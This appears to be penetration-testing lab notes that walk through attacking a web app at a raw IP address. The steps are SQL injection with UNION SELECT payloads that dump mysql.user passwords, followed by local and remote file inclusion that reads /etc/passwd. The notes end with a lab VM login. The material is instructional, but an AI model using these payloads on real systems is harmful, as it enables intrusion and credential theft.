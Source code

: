 http://54.172.112.249/acre2.php?lap=acer' order by 6-- +
---Valid page returned for 5 and 6...error on 7 so we know there are 6 columns



Now we build out the union all select statement with the correct number of columns

Reference:
http://www.techonthenet.com/sql/union.php



http://54.172.112.249/acre2.php?lap=acer' union all select 1,2,3,4,5,6-- +



Now we negate the parameter value 'acer' by turning into the word 'null':
http://54.172.112.249/acre2.php?lap=null' union all select 1,2,3,4,5,6-- j

We see that a 4 and a 5 are on the screen. These are the columns that will echo back data


Use a cheat sheet for syntax:
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet


http://54.172.112.249/acre2.php?lap=null' union all select 1,2,3,user(),5,6-- j

http://54.172.112.249/acre2.php?lap=null' union all select 1,2,3,user(),version(),6-- j

http://54.172.112.249/acre2.php?lap=null' union all select 1,2,3,user(),@@version,6-- +

http://54.172.112.249/acre2.php?lap=null' union all select 1,2,3,user(),@@datadir,6-- +


http://54.172.112.249/acre2.php?lap=null' union all select 1,2,3,user,password,6 from mysql.user -- a




Here we see parameter passing, but this one is actually a yes to question number 3 (reference a file)
http://54.172.112.249/showfile.php?filename=about.txt



See if you can read files on the file system:
http://54.172.112.249/showfile.php?filename=/etc/passwd

We call this attack a Local File Include or LFI.

Now let's find some text out on the internet somewhere:
http://www.opensource.apple.com/source/SpamAssassin/SpamAssassin-127.2/SpamAssassin/t/data/etc/hello.txt


Now let's append that URL to our LFI and instead of it being Local - it is now a Remote File Include or RFI:
http://54.172.112.249/showfile.php?filename=http://www.opensource.apple.com/source/SpamAssassin/SpamAssassin-127.2/SpamAssassin/t/data/etc/hello.txt


-----------------Some Automated Testing from the strategicsec VM-----------------

##################################################
# You can download the virtual machine from here #
##################################################
https://s3.amazonaws.com/StrategicSec-VMs/StrategicsecUbuntu-v3.zip
user: strategicsec
pass: strategicsec
